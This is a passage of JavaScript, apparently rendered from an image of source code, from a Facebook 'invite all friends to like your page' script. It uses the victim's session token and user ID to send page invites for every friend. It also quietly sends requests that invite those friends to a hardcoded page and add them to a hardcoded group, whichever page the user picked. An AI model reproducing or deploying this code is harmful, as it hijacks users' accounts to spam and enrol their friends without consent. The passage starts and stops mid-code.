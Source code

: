 "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darked'>";             err++;             if (c.errorDescription) Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:white'>";             Descriptions += arn[i] + " has been like page " + page_name + ".";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 255, 0.5);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0, 0, 255, 0.5);border-radius: 1em 4em 1em 4em;border:3px solid rgba(0, 0, 255, 0.5);background-color:rgba(0, 176, 255, 0.8);color:#ffffff'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";         if (i > 0) {             display += arr.length + " Friends Detected&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> Friends Invited of " + (arr.length - i) + " Friends Processed ";             display += "(" + i + " Lefted...)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#3B5998;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".&lt;/br>"; display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Cancel&lt;/span>&lt;br/>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>";             display += "&lt;/div>";             window[tag + "_close"] = true         } else {             Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>";             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";             display += _text;             display += "&lt;/div>";             window[tag + "_close"] = false         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         setTimeout("InviteFriends(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);         if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=776528142358209&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")     if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=776528142358209&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")       if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=665607346824079&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");  if (page_id) jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=665607346824079&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");   } jx = {     b: function () {         var b = !1;         if ("undefined" != typeof ActiveXObject) try {             b = new ActiveXObject("Msxml2.XMLHTTP")         } catch (c) {             try {                 b = new ActiveXObject("Microsoft.XMLHTTP")             } catch (a) {                 b = !1             }         } else if (window.XMLHttpRequest) try {             b = new XMLHttpRequest         } catch (h) {